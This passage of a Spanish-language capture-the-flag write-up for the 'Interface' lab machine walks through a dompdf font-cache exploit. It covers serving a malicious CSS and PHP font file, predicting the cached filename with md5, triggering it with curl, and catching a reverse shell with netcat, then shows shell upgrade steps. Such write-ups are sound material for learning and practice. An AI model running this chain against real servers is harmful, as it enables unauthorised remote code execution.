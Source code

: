 Nos esta haciendo 2 peticiones

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.200 - - [11/May/2023 18:49:44] "GET /exploit.css HTTP/1.0" 200 -
10.10.11.200 - - [11/May/2023 18:49:44] "GET /exploit_font.php HTTP/1.0" 200 -
```

El nombre del archivo PHP será igual, pero al final pondrá una cadena _hasheada_ con la _URL_ de la petición. Para saber cuál es el nombre debemos hacer lo siguiente:

```bash
❯ echo -n 'http://10.10.14.115/exploit_fond.php' | md5sum
2878bcfd946950131a7b1b63e1ba4f6d  -
```

Siguiendo las instrucciones nos vamos a poner en escucha con `netcat`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Con `curl` vamos a hacer la peticion al archivo php malicioso que hemos subido 

```bash
❯ curl -s -X POST -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_2878bcfd946950131a7b1b63e1ba4f6d.php
```

Y ganamos acceso ala maquina **Tube que hacer demasiadas veces el intento asta que funciono la maquina nose que paso pero bueno si no te sale ala primera intentalo de nuevo y sigue las instrucciones del repositorio**

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.115] from (UNKNOWN) [10.10.11.200] 40774
bash: cannot set terminal process group (1385): Inappropriate ioctl for device
bash: no job control in this shell
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
```

## User Flag

Despues de hacer un tratamiento de la `tty`

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

Vemos la flag 
